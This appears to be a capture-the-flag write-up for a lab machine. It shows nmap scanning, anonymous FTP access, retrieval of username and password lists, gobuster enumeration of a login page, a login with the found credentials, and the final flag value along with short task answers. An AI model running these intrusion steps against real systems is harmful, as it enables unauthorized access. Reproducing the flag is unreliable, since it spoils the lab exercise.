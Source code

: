 # Target Info
Target Machine IP = 10.129.159.101

# Solution
1. -sC
2. run nmap scan, 
```
○ sudo nmap -sC -sV 10.129.159.101
[sudo] password for zeta:
Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-21 22:29 WIB
Nmap scan report for 10.129.159.101
Host is up (1.3s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.16.47
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.52 seconds
```
3. do ftp with anonymous login, 230
```
○ ftp 10.129.159.101
Connected to 10.129.159.101.
220 (vsFTPd 3.0.3)
Name (10.129.159.101:zeta): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
4. anonymous
5. get
6. ftp get the data, admin
```
ftp> ls
229 Entering Extended Passive Mode (|||49217|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
```
inside the files
```
○ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
○ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```
7. Apache httpd 2.4.41
8. -x
9. run gobuster, login.php
```
○ gobuster dir -u 10.129.159.101 -w SecLists/Discovery/Web-Content/PHP.fuzz.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.159.101
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/PHP.fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/21 22:39:46 Starting gobuster in directory enumeration mode
===============================================================
Progress: 104 / 105 (99.05%)
//login.php           (Status: 200) [Size: 1577]
===============================================================
2023/05/21 22:39:59 Finished
===============================================================
```
10. get the flag
login with the accounts found from allowed.userlist files
![image](https://github.com/ilhamhanifan/hackerman/assets/53177896/f36674f5-d5c2-4188-b064-3abef701ecf5)
flag is on the dashboard page
![image](https://github.com/ilhamhanifan/hackerman/assets/53177896/a569251f-094e-409c-835f-190a26037d5a)

flag = c7110277ac44d78b6a9fff2232434d16
